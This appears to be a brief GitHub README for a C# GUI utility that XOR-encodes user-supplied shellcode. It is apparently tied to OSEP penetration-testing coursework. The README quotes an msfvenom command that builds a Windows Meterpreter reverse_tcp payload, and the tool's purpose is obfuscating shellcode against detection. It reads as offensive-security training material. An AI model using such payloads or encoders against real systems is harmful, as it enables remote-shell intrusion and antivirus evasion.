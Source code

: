 Source: https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/XOR%20Shellcode%20Encoder/Program.cs

Just a simple C# application ported to GUI for ease of use that XOR a shellcode you provide with specified key.

> [!NOTE]
> Make sure to insert only the hex portion of the shellcode, e.g: `0x48, 0x4f`...
> Command ran: `msfvenom -p windows/x64/meterpreter/reverse_tcp exitfunc=thread LHOST=ens33 LPORT=443 -f csharp`

![image](https://github.com/user-attachments/assets/668eca30-24c0-40ac-9a91-500bbfefe94e)

